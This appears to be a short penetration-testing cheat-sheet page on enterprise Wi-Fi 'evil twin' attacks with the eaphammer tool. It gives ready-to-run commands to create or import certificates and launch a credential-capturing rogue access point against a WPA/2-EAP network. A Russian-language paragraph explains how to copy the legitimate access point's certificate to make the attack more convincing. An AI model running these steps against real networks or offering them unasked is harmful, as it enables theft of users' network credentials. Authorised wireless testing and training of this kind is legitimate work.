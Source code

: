 # Enterprise

### Evil Twin <a href="#evil-twin" id="evil-twin"></a>

#### Eaphammer

To setup and execute a credential stealing evil twin attack against a WPA/2-EAP network:

```bash
# generate certificates
./eaphammer --cert-wizard

# launch attack
sudo ./eaphammer --essid CorpWifi --bssid 02:27:22:08:08:89 --interface wlan1 --creds
```

Import certificate

```bash
sudo ./eaphammer --cert-wizard import --server-cert cert.pem --ca-cert fullchain.pem
--private-key privkey.key
```

View installed certs

```sh
sudo ./eaphammer --cert-wizard list
```



### Dump original cert

Для более убедительной атаки сертификат, представляемый пользователям при аутентификации, должен быть похож на легитимный сертификат. Сертификат, используемый легитимной точкой доступа (AP), можно извлечь из захвата сети с помощью следующего инструмента: [ссылка на скрипт](https://gist.github.com/Cablethief/a2b8f0f7d5ece96423ba376d261bd711).
